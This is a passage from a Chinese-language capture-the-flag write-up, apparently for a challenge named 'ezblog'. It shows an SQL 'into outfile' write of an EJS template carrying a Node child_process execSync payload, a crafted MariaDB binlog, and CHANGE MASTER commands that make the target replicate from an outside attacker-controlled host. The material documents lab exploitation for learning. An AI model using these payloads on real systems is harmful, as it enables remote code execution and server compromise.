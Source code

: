 ```java
SELECT "<%= global.process.mainModule.require('child_process').execSync('/readflag').toString();%>" into outfile "/home/ezblog/views/114.ejs";
```
改完以后再放回去
```java
docker cp mysql-bin.000001 some-mariadb:/var/lib/mysql/mysql-bin.000001
```

在题目靶机的SQL console执行以下命令：

1. 创建mysql数据库
2. 创建主从复制所需用到的表
3. 设置题目靶机的主服务器地址及账号密码
4. 启动主从复制

```java
CREATE DATABASE mysql;
CREATE TABLE mysql.gtid_slave_pos (
  `domain_id` int(10) unsigned NOT NULL,
  `sub_id` bigint(20) unsigned NOT NULL,
  `server_id` int(10) unsigned NOT NULL,
  `seq_no` bigint(20) unsigned NOT NULL,
  PRIMARY KEY (`domain_id`,`sub_id`)
) ENGINE=MyISAM DEFAULT CHARSET=utf8 COMMENT='Replication slave GTID position';
CHANGE MASTER TO
  MASTER_HOST='43.143.192.19',
  MASTER_PORT=53306,
  MASTER_USER='root',
  MASTER_PASSWORD='123456',
  MASTER_LOG_FILE='mysql-bin.000001',
  MASTER_LOG_POS=0;
START SLAVE;
```
```java
SHOW SLAVE STATUS\G

```
看状态
![微信截图_20230822230805.png](https://cdn.nlark.com/yuque/0/2023/png/34502958/1692716908025-8d0a25e7-c98f-4348-a725-988ec61e2b2c.png#averageHue=%23f7f6f5&clientId=u06d4900a-5f88-4&from=paste&height=566&id=u2d6d2a67&originHeight=708&originWidth=770&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=31678&status=done&style=none&taskId=u843d2e30-ca42-4f30-bba2-c29429af890&title=&width=616)
rnm搞出来了,学了很多。。

